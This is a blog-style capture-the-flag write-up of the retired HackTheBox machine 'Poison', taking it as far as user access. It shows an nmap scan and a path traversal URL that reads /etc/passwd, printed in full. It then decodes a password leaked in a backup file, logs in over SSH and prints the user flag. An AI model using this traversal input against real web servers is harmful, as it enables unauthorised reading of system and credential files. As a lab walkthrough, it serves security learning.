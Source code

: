 +++
author = "Dan Salmon"
date = 2018-10-18T04:33:52Z
description = ""
draft = true
tags = ["hackthebox", "ctf"]
slug = "hackthebox-poison"
title = "HackTheBox 'Poison' - Own User Guide"
type = "post"
+++

**Note:** *If you are currently trying to get access to this box, I highly recommend you try it yourself first and only use this guide if you really are stuck.*
<br />
<br />


### Intro

Now that the Poison box is retired on hackthebox, we can talk publicly about how to gain access to this machine. While this machine was active, I only took the time to gain user access, not all the way to root. There are multiple ways to get access on Poison, but I'm just showing the way I took which is one of the shortest routes to the user. 


### Machine Overview

All we know about this box initially is that it's running FreeBSD and that most users who have completed it rate it as relatively easy to exploit. 

![poison-overview](../images/poison-overview.png)


### Steps

As with all pentests, we must start with recon. Let's start by port scanning the box.

```shell
nmap -sC -sV -oA hackthebox-poison 10.10.10.84
```

and the results show:

![poison-scan](../images/poison-scan.png)

So we can see this box only has SSH and HTTP running. Let's see what's running on port 80.

![poison-home](../images/poison-home.png)


Here there's a list of file names and a textbox. If we enter any of the filenames into the text box, the page seems to read the contents of the file and output it to the screen. We're expected to input a file from the list of file names, but let's see what happens if we try to leave the current directory.

In the browser, try to navigate to

```json
http://10.10.10.84/browse.php?file=../../../../../../../../../etc/passwd
```

and we should get the output

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Nice! The page is vulnerable to a [Path Traversal attack](https://www.owasp.org/index.php/Path_Traversal). In the output we can see that there are 2 users that have shell access on the box: `charix` and `root`.

This is good information, but not enough to get access into the box. Let's circle back to the files listed on the home page

```
ini.php
info.php
listfiles.php
phpinfo.php
```

Entering `listfiles.php` into the box on the home page lists the files we already know about, but also an unknown file with an interesting name - `pwdbackup.txt`. 

Well let's check that one out!

```json
http://10.10.10.84/browse.php?file=pwdbackup.txt
```

```markdown
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

We can tell it's probably Base64 encoded based on the fact that it sends with an equal sign. Since the hint tells us it's encoded 13x, just run it through a Base64 decoder 13x. After all that we get:

```markdown
Charix!2#4%6&8(0
```

Sure looks like a password to me! Verify this by SSH'ing into the box with this password:

```
ssh charix@10.10.10.84
```

and of course grab the flag to claim

```
$ cat ~/user.txt
eaacdfb2d141b72a589233063604209c
```

Root escalation will be left as an excercise to the reader (because I didn't have time to do it before the box was retired).







